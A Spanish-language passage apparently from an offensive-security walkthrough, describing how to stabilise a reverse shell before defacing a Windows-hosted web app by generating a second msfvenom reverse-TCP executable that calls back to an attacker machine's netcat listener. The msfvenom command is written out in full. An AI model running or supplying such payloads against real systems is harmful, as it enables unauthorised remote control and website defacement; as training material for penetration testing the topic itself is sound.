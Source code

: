 ![](../.gitbook/assets/image%20%28146%29.png)

Antes que podamos proceder con el defacement **debemos solucionar un pequeño problema**, la conexión que recibimos con nuestro reverse shell es **bastante inestable** y la conexión al server se corta rápidamente. Para mitigar este problema intentaremos crear un **`segundo payload`** con en formato **exe** para la plataforma **Windows** donde corre la app. La idea es que una vez tengamos la conexión inicial con el **`payload1`**, ejecutaremos el **`payload2`** para obtener una sesión más estable en un **`netcat`** listener secundario.

Para crear este segundo payload, también usaremos **`msfvenom`**:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=IP_VM_ATAQUE LPORT=PUERTO_DESEADO -f exe > nombre_payload2.exe
```

Creamos este segundo payload:

![](../.gitbook/assets/image%20%28171%29.png)
